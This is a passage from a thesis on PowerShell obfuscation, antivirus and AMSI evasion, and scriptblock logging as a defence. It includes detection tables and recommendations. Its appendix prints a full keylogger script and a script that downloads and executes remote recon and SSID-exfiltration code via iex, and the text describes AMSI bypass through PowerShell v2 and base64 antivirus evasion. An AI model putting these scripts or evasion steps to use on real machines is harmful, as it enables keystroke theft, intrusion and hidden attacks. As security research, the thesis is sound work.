Assuming the victim machine has $1$ Tb of disk space and the executeObfuscatedHarmlessCode script has the same logging rate as table \hyperlink{table10}{10}. Then the disk can be filled in $1$ hour and $7$ minutes. This would then freeze the victims machine.
\subsubsection{Do not overwrite events}
This option is added to the event viewer for debugging purposes and should never be used on a machine that is running important programs. Since the machine will not show any logs until the log file has been cleared, it gives the attacker both stealth and it will cover the attackers tracks. 
\subsubsection{PowerShell logging from the attackers perspective.}
An attacker will be very interested in the options set for PowerShell logging. Therefore they will try to get this information as soon as possible. Fortunately PowerShell already has a built in feature that allows the attacker to see exactly what options have been chosen for the logging system. This information can be found by using:
\begin{verbatim}
 Get-LogProperties
\end{verbatim}
The output of this command looks as followed:
\begin{verbatim}
Name: Microsoft-Windows-PowerShell/Operational
Enabled:    True
Type:       Operational
Retention:  True
Autobackup: True
MaxLogSize: 17301504
\end{verbatim}
This data set should be read as followed:\newline\newline
If retention is false, then the overwrite option has been chosen. If Retention is true and auto-backup is true then the archiving option has been selected. And if retention is true but auto-backup is false then the clear logs manually option has been chosen. The attacker can also use PowerShell to read the events stored in the event log. This allows the attacker to get more information on the scripts that are already run on the victim machine. This can be done by using a command that looks similar to the [\hyperlink{o12}{o12}]following command:
\begin{verbatim}
Get-Content -Path C:\Windows\System32\Winevt\
  Logs\Microsoft-Windows-PowerShell%4Operational.evtx -Tail 50
\end{verbatim}
However this can be circumvented by applying a form of moving target defence by renaming the file in the event viewer. In fact a system admin could create a dummy .evtx file with the default in order to trick the attacker. Since the attacker cannot see which task has been attached to the log file, the best course of action at this state would be to bypass PowerShell logging all together. It was shown in a previous section that this can be done by disabling PowerShell logging in the cache. However this command will be stored in the log and could raise suspicion. This brings the attacker to PowerShell version $2$.
\subsubsection{PowerShell v2}
PowerShell v$2$ is no longer supported by Microsoft. However it still can be used. While some windows machines have PowerShell v$2$ disabled, this is not always the case. In fact during this thesis, ten different Windows $10$ machines were checked for PowerShell v$2$. All these machines had this older version of PowerShell enabled. Furthermore an attacker could attempt to download PowerShell v$2$ on the victims machine and execute it. PowerShell version $2$ does not support AMSI, module- and scriptblock logging. This means that attacks executed on PowerShell v$2$ have a smaller chance of being detected. For example, during this thesis is was possible to run PowerUp.ps1 on PowerShell version two while it was blocked by any other PowerShell. This script shows the user vulnerabilities that can be used in order to gain admin privileges. Which if gained, would allow the attacker to disable AMSI and PowerShell logging without being detected. At this point the attacker would be free to use a larger range of scripts without being detected. It may be better if Microsoft not only disabled PowerShell v$2$, but also made it inoperable on newer windows machines. 
\subsubsection{Other findings}
During the tests many attempts were made on attacking the system. In this section a few interesting findings will be mentioned that did not fit any other section but are worth mentioning. In this section a short description of the finding will be given with a potential fix.
\begin{enumerate}
	\item AV automatically blocks some scripts like PowerUp.ps1. However if the script is encoded in base64 then the script can bypass the AV. Further more scripts like PowerUp.ps1 are blocked by the antivirus when execution is attempted using \textbf{Invoke-Expression}. However when encoded to base64, the script can be loaded using \textbf{Import-Module}. After that all functions in PowerUp.ps1 can be called. The solution to this problem would be to check if the file is encoded. If the file has been encoded then the AV would have to decode it before scanning.
	\item Most windows users will not make use of PowerShell. Therefore it might be safer to have PowerShell disabled by default. Anyone who needs to use PowerShell will usually have the technical knowledge of enabling/installing the software.
	\item An AMSI bypass was used using PowerShell v$2$, this script successfully disabled AMSI and no information about the attack was logged.
	\item When PowerShell v$2$ was called through CMD-shell with a reverse shell, the connection with the victim machine was disabled. To use PowerShell -v$2$ while using reverse shell, it is required to send the command as a parameter.
	For example by typing the following in the CMD terminal:
	\begin{verbatim}
	PowerShell -v 2 -NoProfile -ExecutionPolicy
	    bypass -C "echo 'Hello World!'"
	\end{verbatim}
	Once the command has been executed the PowerShell process will terminate giving the attacker control over the CMD-terminal again. During this process no additional logs were created. However the command given as parameter could be read inside the title bar of the CMD-terminal. Perhaps this finding can help to create a counter measure for the usage of PowerShell -v$2$.
\end{enumerate}
\section{Conclusion}
At first it seemed as if Windows defender and AMSI were a perfect defence against obfuscated PowerShell scripts. Almost all attacks in the beginning of the research were blocked by the AV software. However after some more deep research in to hacking windows computers and using PowerShell, small vulnerabilities started to become more clear. At the end of the research it almost seemed as if the AV and AMSI tools were no threat what so ever. And this also is the answer I would give to the main question. If looked only at the default defence that a windows machine has, then there is still a lot to be left wanting. AV-programs make use of a signature based approach, and AMSI can easily be bypassed. This is where PowerShell logging can aid as a next layer of defence. Thanks to the recursive nature of scriptblock logging, it is possible to catch a de-obfuscated version of the scripts that were run. The logging tool itself had some type of defence mechanism as well as it was able to label the scriptblocks with a warning level severity. This means that with a small amount of additional work, the PowerShell scriptblock logging could become a very helpful tools for system admins. It is important to mention system admins here as a normal windows user would probably not look at event logs or do anything with it. The general assumption made by most is that Windows Defender is enough of a 'defence'. Which may be true for downloading malware, but it definitely is not when looked at fileless scripting. This means that most Windows users are at risk here, thanks to the flexibility and some features of PowerShell, such as the -h flag which allows the PowerShell terminal to be run without having a UI, allow attacker to be very stealthy while attacking a system. During this thesis, some ransomware were used which required admin privileges and one script was used that would prompt the user to enter their username and password and would not disappear until the user did so. A side from that another script was used that would downgrade the windows version currently installed on the computer. This script made use of a feature inside of windows. Which means that when this script was used and it required admin privileges to downgrade the system, the system would prompt an admin request pop up, that looked as if the windows machine was trying to install the latest update. This is a faulty design decision from Microsoft. It would help if the popup had noted that this permissions request was for a process that was downgrading the computer. A small design decision such as that could help against some attacks. It is also worth mentioning that while it is said that PowerShell v$2$ is disabled on personal computers, that this had not been the case on the five Windows 10 computers that were checked. PowerShell v$2$ is a very high concern as it only has one line of defence which is the AV program. PowerShell v$2$ however has a large array of tools that can be used and abused making it highly useful tool for any hacker. However this vulnerability could be fixed by just disabling PowerShell v$2$ or removing it all together. Further more it can be seen that there are some new potential defence layers in development. First of all a real time defence mechanism can be created using PowerShell logging and machine learning. There are already some SIEM-tools that claim to do some form of event handling for security reasons, however more research is required in order to measure the effectiveness of these tools. In this thesis, some other forms of defences have been suggested based around the PowerShell logging tool. Such as measuring the logging rate and checking the size of each scriptblock logged. During this research, it was perceived that any scriptblock that required more then one event entry to be logged fully, was an obfuscated piece of code. This information might be very useful for any further research in this regard. But the main recommendation that can be given to any person who uses a windows machine ($8.1$ or above), would be to attach a simple mailing or notification task that will alert the user when a warring level scriptblock was detected. This recommendation does not require a large amount of expertise or effort, yet it can aide greatly against scripts used for exploitation and recognisance. Overall the additional defence layers that can be built on top of the standard defence layers, seem very promising. But as long this systems have not become part of the standard defence mechanism of windows machines, it will remain simple for attackers to abuse the capabilities of PowerShell.
\newpage
\section{Sources}
\subsection{Papers}
\begin{enumerate}
\hypertarget{1}\item Compromising systems: implementing hacking phases | International Journal of Computer Science \& Information Technology (IJCSIT) Vol 11, No 2, April 2019
\hypertarget{2}\item Ethical Hacking Techniques with Penetration Testing|  K.Bala Chowdappa et al, / (IJCSIT) International Journal of Computer Science and Information Technologies, Vol. 5 (3) , 2014, 3389-3393
\hypertarget{3}\item A Study \& Review on Code Obfuscation | 2016 World Conference on Futuristic Trends in Research and Innovation for Social Welfare 
\hypertarget{4}\item AMSI-Based Detection of Malicious PowerShell
Code Using Contextual Embeddings
\hypertarget{5}\item Cyber-attacks – trends, patterns and security countermeasures, Andreea Bendovschi.
\hypertarget{6}\item Phishing – challenges and solutions [Computer Fraud \& Security] - Sathish A.P Kumar
\hypertarget{7}\item "I Agree to the Terms and Conditions": (How) Do Users Read Privacy Policies Online? An Eye-Tracking Experiment Nili Steinfeld
\hypertarget{8}\item Microsoft Antimalware Scan Interface – an introduction to AMSI | Michael Schneider
\hypertarget{9}\item Moving Target Defense Techniques: A Survey | Cheng Lei
\hypertarget{10}\item A Scalable High Fidelity Decoy Framework against
Sophisticated Cyber Attacks | Jianhua Sun
\hypertarget{11}\item PowerDrive: Accurate De-Obfuscation and Analysis of PowerShell Malware
\hypertarget{12}\item Monitoring malicious PowerShell uage through log analysis | Jesper Magnusson
\end{enumerate}
\subsection{Other}
\begin{enumerate}
\hypertarget{1}\item https://github.com/danielbohannon/Invoke-Obfuscation
\hypertarget{2}\item https://www.blackhat.com/docs/us-17/thursdayus-17-Bohannon-Revoke-Obfuscation-PowerShell-Obfuscation-Detection-And\%20Evasion-Using-Science-wp.pdf
\hypertarget{3}\item http://techgenix.com/PowerShell-script-obfuscation/
\hypertarget{4}\item Fileless Malware Execution with PowerShell Is Easier than You May Realize [\textbf{McAfee}]
\hypertarget{5}\item https://devblogs.microsoft.com/PowerShell/PowerShell-the-blue-team
\hypertarget{6}\item https://www.fireeye.com/blog/threat-research/$2016$/$02$/greater\_visibilityt.html
\hypertarget{7}\item https://www.mdsec.co.uk/$2018$/$06$/exploring-PowerShell-amsi-and-logging-evasion/
\hypertarget{8}\item https://www.varonis.com/blog/PowerShell-obfuscation-stealth-confusion-part-ii/
\hypertarget{9}\item Common Cyber Attacks Reducing The Impact CESG.
\hypertarget{10}\item https://github.com/lazywinadmin/PowerShell/blob/master/TOOL-Start-KeyLogger/Start-KeyLogger.ps1
\hypertarget{11}\item https://blog.fox-it.com/2020/09/02/machine-learning-from-idea-to-reality-a-PowerShell-case-study/
\hypertarget{12}\item https://4sysops.com/archives/parse-log-files-with-PowerShell/
\hypertarget{13}\item https://www.youtube.com/watch?v=3Kq1MIfTWCE
\end{enumerate}
\newpage
\section{Appendix}
\subsection{Tables}
\begin{table}[]
\caption {Detection of obfuscated scripts on Windows 10} \label{tab:table_one}
\begin{center}
\begin{tabular}{|l|l|l|l|}
\hline
\textbf{Obfuscation} & \textbf{OS} & \textbf{Program} & \textbf{Detected} \\ \hline
Token ALL            & Win 10      & ALL              & No                \\ \hline
Token ALL            & Win 10      & ALL              & No                \\ \hline
String 1             & Win 10      & Windows Defender & Yes               \\ \hline
String 2             & Win 10      & Windows Defender & Yes               \\ \hline
String 3             & Win 10      & Windows Defender & Yes               \\ \hline
Encoding 1           & Win 10      & Windows Defender & No                \\ \hline
Encoding 2           & Win 10      & Windows Defender & No                \\ \hline
Encoding 3           & Win 10      & Windows Defender & Yes               \\ \hline
Encoding 4           & Win 10      & Windows Defender & Sometimes         \\ \hline
Encoding 5           & Win 10      & Windows Defender & No                \\ \hline
Encoding 6           & Win 10      & Windows Defender & Yes               \\ \hline
Encoding 7           & Win 10      & Windows Defender & No                \\ \hline
Encoding 8           & Win 10      & Windows Defender & No                \\ \hline
Compress             & Win 10      & Windows Defender & Yes               \\ \hline
String 1             & Win 10      & AVG              & No                \\ \hline
String 2             & Win 10      & AVG              & No                \\ \hline
String 3             & Win 10      & AVG              & No                \\ \hline
Encoding 1           & Win 10      & AVG              & No                \\ \hline
Encoding 2           & Win 10      & AVG              & No                \\ \hline
Encoding 3           & Win 10      & AVG              & No                \\ \hline
Encoding 4           & Win 10      & AVG              & No                \\ \hline
Encoding 5           & Win 10      & AVG              & No                \\ \hline
Encoding 6           & Win 10      & AVG              & No                \\ \hline
Encoding 7           & Win 10      & AVG              & No                \\ \hline
Encoding 8           & Win 10      & AVG              & No                \\ \hline
Compress             & Win 10      & AVG              & No                \\ \hline
String 1             & Win 10      & MCAfee          & Yes               \\ \hline
String 2             & Win 10      & MCAfee          & Yes               \\ \hline
String 3             & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 1           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 2           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 3           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 4           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 5           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 6           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 7           & Win 10      & MCAfee          & Yes               \\ \hline
Encoding 8           & Win 10      & MCAfee          & Yes               \\ \hline
Compress             & Win 10      & MCAfee          & Yes               \\ \hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Detection of obfuscated scripts on Windows 8.1} \label{tab:table_two}
\begin{center}
\begin{tabular}{|l|l|l|l|}
\hline
Obfuscation & OS      & Program          & Detected \\ \hline
Token ALL   & Win 8.1 & ALL              & No       \\ \hline
AST ALL     & Win 8.1 & ALL              & No       \\ \hline
String 1    & Win 8.1 & Windows Defender & No       \\ \hline
String 2    & Win 8.1 & Windows Defender & No       \\ \hline
String 3    & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 1  & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 2  & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 3  & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 4  & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 5  & Win 8.1 & Windows Defender & ERROR    \\ \hline
Encoding 6  & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 7  & Win 8.1 & Windows Defender & No       \\ \hline
Encoding 8  & Win 8.1 & Windows Defender & No       \\ \hline
Compress    & Win 8.1 & Windows Defender & No       \\ \hline
String 1    & Win 8.1 & AVG              & No       \\ \hline
String 2    & Win 8.1 & AVG              & No       \\ \hline
String 3    & Win 8.1 & AVG              & No       \\ \hline
Encoding 1  & Win 8.1 & AVG              & No       \\ \hline
Encoding 2  & Win 8.1 & AVG              & No       \\ \hline
Encoding 3  & Win 8.1 & AVG              & No       \\ \hline
Encoding 4  & Win 8.1 & AVG              & No       \\ \hline
Encoding 5  & Win 8.1 & AVG              & ERROR    \\ \hline
Encoding 6  & Win 8.1 & AVG              & No       \\ \hline
Encoding 7  & Win 8.1 & AVG              & No       \\ \hline
Encoding 8  & Win 8.1 & AVG              & No       \\ \hline
Compress    & Win 8.1 & AVG              & No       \\ \hline
String 1    & Win 8.1 & MCAffee          & No       \\ \hline
String 2    & Win 8.1 & MCAffee          & No       \\ \hline
String 3    & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 1  & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 2  & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 3  & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 4  & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 5  & Win 8.1 & MCAffee          & ERROR    \\ \hline
Encoding 6  & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 7  & Win 8.1 & MCAffee          & No       \\ \hline
Encoding 8  & Win 8.1 & MCAffee          & No       \\ \hline
Compress    & Win 8.1 & MCAffee          & No       \\ \hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Detection of obfuscated scripts on Windows 7} \label{tab:table_three}
\begin{center}
\begin{tabular}{|l|l|l|l|}
\hline
Obfuscation & OS    & Program          & Detected \\ \hline
Token ALL   & Win 7 & ALL              & No       \\ \hline
AST ALL     & Win 7 & ALL              & No       \\ \hline
String 1    & Win 7 & Windows Defender & No       \\ \hline
String 2    & Win 7 & Windows Defender & No       \\ \hline
String 3    & Win 7 & Windows Defender & No       \\ \hline
Encoding 1  & Win 7 & Windows Defender & No       \\ \hline
Encoding 2  & Win 7 & Windows Defender & No       \\ \hline
Encoding 3  & Win 7 & Windows Defender & No       \\ \hline
Encoding 4  & Win 7 & Windows Defender & No       \\ \hline
Encoding 5  & Win 7 & Windows Defender & ERROR    \\ \hline
Encoding 6  & Win 7 & Windows Defender & No       \\ \hline
Encoding 7  & Win 7 & Windows Defender & No       \\ \hline
Encoding 8  & Win 7 & Windows Defender & No       \\ \hline
Compress    & Win 7 & Windows Defender & No       \\ \hline
String 1    & Win 7 & AVG              & No       \\ \hline
String 2    & Win 7 & AVG              & No       \\ \hline
String 3    & Win 7 & AVG              & No       \\ \hline
Encoding 1  & Win 7 & AVG              & No       \\ \hline
Encoding 2  & Win 7 & AVG              & No       \\ \hline
Encoding 3  & Win 7 & AVG              & No       \\ \hline
Encoding 4  & Win 7 & AVG              & No       \\ \hline
Encoding 5  & Win 7 & AVG              & ERROR    \\ \hline
Encoding 6  & Win 7 & AVG              & No       \\ \hline
Encoding 7  & Win 7 & AVG              & No       \\ \hline
Encoding 8  & Win 7 & AVG              & No       \\ \hline
Compress    & Win 7 & AVG              & No       \\ \hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Detection of obfuscated scripts on Windows server 2016} \label{tab:table_four}
\begin{center}
\begin{tabular}{|l|l|l|l|}
\hline
Obfuscation & OS       & Program          & Detected \\ \hline
Token ALL   & Win 2016 & ALL              & No       \\ \hline
AST ALL     & Win 2016 & ALL              & No       \\ \hline
String 1    & Win 2016 & Windows Defender & No       \\ \hline
String 2    & Win 2016 & Windows Defender & No       \\ \hline
String 3    & Win 2016 & Windows Defender & No       \\ \hline
Encoding 1  & Win 2016 & Windows Defender & No       \\ \hline
Encoding 2  & Win 2016 & Windows Defender & No       \\ \hline
Encoding 3  & Win 2016 & Windows Defender & No       \\ \hline
Encoding 4  & Win 2016 & Windows Defender & No       \\ \hline
Encoding 5  & Win 2016 & Windows Defender & ERROR    \\ \hline
Encoding 6  & Win 2016 & Windows Defender & No       \\ \hline
Encoding 7  & Win 2016 & Windows Defender & No       \\ \hline
Encoding 8  & Win 2016 & Windows Defender & No       \\ \hline
Compress    & Win 2016 & Windows Defender & No       \\ \hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Detection of obfuscated scripts on Windows server 2019} \label{tab:table_five}
\begin{center}
\begin{tabular}{|l|l|l|l|}
\hline
Obfuscation & OS       & Program          & Detected \\ \hline
Token ALL   & Win 2019 & ALL              & No       \\ \hline
AST ALL     & Win 2019 & ALL              & No       \\ \hline
String 1    & Win 2019 & Windows Defender & No       \\ \hline
String 2    & Win 2019 & Windows Defender & No       \\ \hline
String 3    & Win 2019 & Windows Defender & No       \\ \hline
Encoding 1  & Win 2019 & Windows Defender & No       \\ \hline
Encoding 2  & Win 2019 & Windows Defender & Yes      \\ \hline
Encoding 3  & Win 2019 & Windows Defender & No       \\ \hline
Encoding 4  & Win 2019 & Windows Defender & No       \\ \hline
Encoding 5  & Win 2019 & Windows Defender & ERROR    \\ \hline
Encoding 6  & Win 2019 & Windows Defender & No       \\ \hline
Encoding 7  & Win 2019 & Windows Defender & No       \\ \hline
Encoding 8  & Win 2019 & Windows Defender & No       \\ \hline
Compress    & Win 2019 & Windows Defender & No       \\ \hline
\end{tabular}
\end{center}
\end{table}
\begin{table}
\caption {Log file information after execution of mallware.}
\label{tab:table_six}
\begin{center}
\begin{tabular}{|l|l|l|l|l|l|}
\hline
Windows 10/2016/2019 & Events & Filesize (mb) & Highest Level & Warning & E.T. (s)  \\\hline
PS-ML-Obfuscated     & 9296   & 15              & verbose       & 0       & 10               \\\hline
PS-ML-Un-Obfuscated  & 550    & 1               & verbose       & 1       & 10               \\\hline
PS-SL-Obfuscated     & 8291   & 16.5            & information   & 0       & 10               \\\hline
PS-SL-Un-Obfuscated  & 556    & 1               & verbose       & 1       & 10               \\\hline
                     &        &                 &               &         &                  \\\hline
                     &        &                 &               &         &                  \\\hline
Windows 8.1 Default  & Events & Filesize (mb) & Highest Level & Warning & E.T. (s)  \\\hline
PS-ML-Obfuscated     & 9296   & 15              & verbose       & 0       & 10               \\\hline
PS-ML-Un-Obfuscated  & 550    & 1               & verbose       & 0       & 10               \\\hline
PS-SL-Obfuscated     & 8291   & 16.5            & information   & 0       & 10               \\\hline
PS-SL-Un-Obfuscated  & 556    & 1               & verbose       & 0       & 10               \\\hline
                     &        &                 &               &         &                  \\\hline
Windows 8.1 (A.P.L)  & Events & Filesize (mb) & Highest Level & Warning & E.T. (s)  \\\hline
PS-ML-Obfuscated     & 9296   & 15              & verbose       & 0       & 10               \\\hline
PS-ML-Un-Obfuscated  & 550    & 1               & verbose       & 0       & 10               \\\hline
PS-SL-Obfuscated     & 8291   & 16.5            & information   & 0       & 10               \\\hline
PS-SL-Un-Obfuscated  & 556    & 1               & verbose       & 0       & 10               \\\hline
\end{tabular}
\end{center}
\end{table}
\begin{table}
\begin{center}
\caption {Log file information after execution of Keylogger. With archive enabled}
\label{tab:table_seven}
\begin{tabular}{|l|l|l|l|l|l|}\hline
Windows 10/2016/2019 & Events & Filesize (mb) & Highest Level & Warning & E.T. (s)  \\\hline
PS-ML-Obfuscated     & 30283  & 50              & verbose       & 0       & 10               \\\hline
PS-ML-Un-Obfuscated  & 550    & 1               & verbose       & 0       & 10               \\\hline
PS-SL-Obfuscated     & 113258 & 187             & information   & 0       & 10               \\\hline
PS-SL-Un-Obfuscated  & 556    & 1               & verbose       & 0       & 10               \\\hline
                     &        &                 &               &         &                  \\\hline
                     &        &                 &               &         &                  \\\hline
Windows 8.1 Default  & Events & Filesize (mb) & Highest Level & Warning & E.T. (s)  \\\hline
PS-ML-Obfuscated     & 15     & 1               & verbose       & 0       & 10               \\\hline
PS-ML-Un-Obfuscated  & 4      & 1               & verbose       & 0       & 10               \\\hline
PS-SL-Obfuscated     & 8      & 1               & information   & 0       & 10               \\\hline
PS-SL-Un-Obfuscated  & 6      & 1               & verbose       & 0       & 10               \\\hline
                     &        &                 &               &         &                  \\\hline
Windows 8.1 (A.P.L)  & Events & Filesize (mb) & Highest Level & Warning & E.T. (s)  \\\hline
PS-ML-Obfuscated     & 28524  & 46              & verbose       & 0       & 10               \\\hline
PS-ML-Un-Obfuscated  & 687    & 1               & verbose       & 0       & 10               \\\hline
PS-SL-Obfuscated     & 30458  & 58              & verbose       & 0       & 10               \\\hline
PS-SL-Un-Obfuscated  & 689    & 1               & verbose       & 0       & 10               \\\hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Log file Ransomware}
\label{tab:table_eight}
\begin{center}
\begin{tabular}{|l|l|l|l|l|}
\hline
Windows 10/2016/2019 & Events & Filesize (mb) & Highest Level & Warning \\\hline
PS-ML-Obfuscated     & 183    & 1.07            & verbose       & 0       \\\hline
PS-ML-Un-Obfuscated  & 134    & 1               & verbose       & 0       \\\hline
PS-SL-Obfuscated     & 9377   & 8.07            & information   & 50      \\\hline
PS-SL-Un-Obfuscated  & 326    & 1               & Warning       & 50      \\\hline
                     &        &                 &               &         \\\hline
                     &        &                 &               &         \\\hline
Windows 8.1 Default  & Events & Filesize (mb) & Highest Level & Warning \\\hline
PS-ML-Obfuscated     & 9296   & 15              & verbose       & 0       \\\hline
PS-ML-Un-Obfuscated  & 550    & 1               & verbose       & 0       \\\hline
PS-SL-Obfuscated     & 8291   & 16.5            & information   & 0       \\\hline
PS-SL-Un-Obfuscated  & 556    & 1               & verbose       & 0       \\\hline
                     &        &                 &               &         \\\hline
Windows 8.1 (A.P.L)  & Events & Filesize (mb) & Highest Level & Warning \\\hline
PS-ML-Obfuscated     & 9296   & 15              & verbose       & 0       \\\hline
PS-ML-Un-Obfuscated  & 550    & 1               & verbose       & 0       \\\hline
PS-SL-Obfuscated     & 8291   & 16.5            & information   & 0       \\\hline
PS-SL-Un-Obfuscated  & 556    & 1               & verbose       & 0       \\\hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Log file Reverse Shell}
\label{tab:table_nine}
\hypertarget{table9}\hfill
\begin{center}
\begin{tabular}{|l|l|l|l|l|l|}\hline
Windows 10/2016/2019 & Events & Filesize (mb) & Highest Level & Warning & E.T. (s) \\\hline
PS-ML-Obfuscated     & 605    & 2               & verbose       & 0       & 600             \\\hline
PS-ML-Un-Obfuscated  & 2689   & 4               & verbose       & 0       & 1200            \\\hline
PS-SL-Obfuscated     & 425816 & 223             & Warning       & 24      & 600             \\\hline
PS-SL-Un-Obfuscated  & 25596  & 16.07           & Warning       & 3       & 1200           	\\\hline
\end{tabular}
\end{center}
\end{table}
\begin{table}[]
\caption {Log file Privesc using Invoke-AllChecks}
\label{tab:table_ten}
\hypertarget{table10}\hfill
\begin{tabular}{|l|l|l|l|l|l|}\hline
Windows 10/2016/2019 & Events & Filesize (mb) & Highest Level & Warning & E.T. (s) \\\hline
PS-ML-Obfuscated     & 35231    & 134               & verbose       & 0       & 10              \\\hline
PS-ML-Un-Obfuscated  & N/A    & N/A               & N/A       & N/A       & N/A              \\\hline
PS-SL-Obfuscated     & 483822    & 247               & Warning       & 48      & 10              \\\hline
PS-SL-Un-Obfuscated  & N/A  & N/A           & N/A       & N/A       & N/A           	\\\hline
\end{tabular}
\end{table}
\newpage
\subsection{Scripts}
\hypertarget{script1}{\subsubsection{Simple script}}
\begin{verbatim}
Write-Host Hello World! -f red
\end{verbatim}
\hypertarget{script2}{\subsubsection{Keylogger.ps1}}
\begin{verbatim}
function Start-KeyLogger($Path="$env:temp\keylogger.txt")
{
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode,
	byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff,
	  uint wFlags);
'@
  $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace
    API -PassThru
  $null = New-Item -Path $Path -ItemType File -Force
  try
  {
    Write-Host 'Recording key presses. Press CTRL+C to see results.'
     -ForegroundColor Red
    while ($true) {
      Start-Sleep -Milliseconds 40
      for ($ascii = 9; $ascii -le 254; $ascii++) {
        $state = $API::GetAsyncKeyState($ascii)
        if ($state -eq -32767) {
          $null = [console]::CapsLock
          $virtualKey = $API::MapVirtualKey($ascii, 3)
          $kbstate = New-Object Byte[] 256
          $checkkbstate = $API::GetKeyboardState($kbstate)
          $mychar = New-Object -TypeName System.Text.StringBuilder
          $success = $API::ToUnicode($ascii, $virtualKey, $kbstate,
              $mychar, $mychar.Capacity, 0)
          if ($success) 
          {
            [System.IO.File]::AppendAllText($Path, $mychar, [
            System.Text.Encoding]::Unicode) 
          }
        }
      }
    }
  }
  finally
  {
    notepad $Path
  }
}
Start-KeyLogger
\end{verbatim}
\hypertarget{script3}{\subsubsection{Invoke-SuperScript.ps1}}
\begin{verbatim}
function Invoke-SuperScript{

	iex (new-Object net.webclient).DownloadString
	("http://192.168.2.36:8000/Invoke-PortScan.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Check-VM.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Get-Information.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Invoke-SSIDExfil.ps1");

	Invoke-PortScan -StartAddress 10.0.2.1 
	    -EndAddress 10.0.2.254 -ResolveHost -ScanPort;

	Invoke-PortScan -StartAddress 10.0.2.15 
	    -EndAddress 10.0.2.15 -ResolveHost -ScanPort;

	Check-VM;

	Get-Information;

	Invoke-SSIDExfil;
}
\end{verbatim}
\subsection{Outputs}
\hypertarget{output1}{\subsubsection{Output:Get-Information}}
\begin{verbatim}
get-childitem : Cannot find path 'HKEY_CURRENT_USER\software\
simontatham\putty' because it does not exist.
At line:27 char:21
+         else{$key = get-childitem $regkey}
+                     ~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: 
    (HKEY_CURRENT_US...montatham\putty:String) [Get-ChildItem],
    ItemNotFoundException
    + FullyQualifiedErrorId :
    PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
 
get-childitem : Cannot find path
'HKEY_CURRENT_USER\software\simontatham\putty\sessions'
because it does not exist.
At line:27 char:21
+         else{$key = get-childitem $regkey}
+                     ~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound:
    (HKEY_CURRENT_US...\putty\sessions:String) [Get-ChildItem], 
    ItemNotFoundException
    + FullyQualifiedErrorId :
    PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
 
get-item : Cannot find path
'HKLM:\SYSTEM\CurrentControlSet\services\snmp\parameters\
validcommunities' because it does not exist.
At line:26 char:37
+         if ($child -eq "no"){$key = get-item $regkey}
+                                     ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound:
    (HKLM:\SYSTEM\Cu...alidcommunities:String) [Get-Item], 
    ItemNotFoundException
    + FullyQualifiedErrorId :
    PathNotFound,Microsoft.PowerShell.Commands.GetItemCommand
 
get-item : Cannot find path
'HKCU:\SYSTEM\CurrentControlSet\services\snmp\parameters\
    validcommunities' because it does not exist.
At line:26 char:37
+         if ($child -eq "no"){$key = get-item $regkey}
+                                     ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound:
    (HKCU:\SYSTEM\Cu...alidcommunities:String) [Get-Item], 
    ItemNotFoundException
    + FullyQualifiedErrorId :
    PathNotFound,Microsoft.PowerShell.Commands.GetItemCommand

Logged in users:
C:\Windows\system32\config\systemprofile
C:\Windows\ServiceProfiles\LocalService
C:\Windows\ServiceProfiles\NetworkService
C:\Users\NormalUser
C:\Users\Administrator

 PowerShell environment:
Install
PID
ConsoleHostShortcutTarget
ConsoleHostShortcutTargetX86
Install

 Putty trusted hosts:


 Putty saved sessions:


 Recently used commands:


 Shares on the machine:


 Environment variables:
C:\Windows\system32\cmd.exe
C:\Windows\System32\Drivers\DriverData
Windows_NT
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;
  C:\Window\System32\WindowsPowerShell\v1.0\;C:\Windows
    \System32\OpenSSH\
.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
AMD64
C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32
\WindowsPowerShell\v1.0\Modules
C:\Windows\TEMP
C:\Windows\TEMP
SYSTEM
C:\Windows
2
6
Intel64 Family 6 Model 94 Stepping 3, GenuineIntel
5e03
auto

 More details for current user:
\\WIN-H8C7LGTI40B
WIN-H8C7LGTI40B
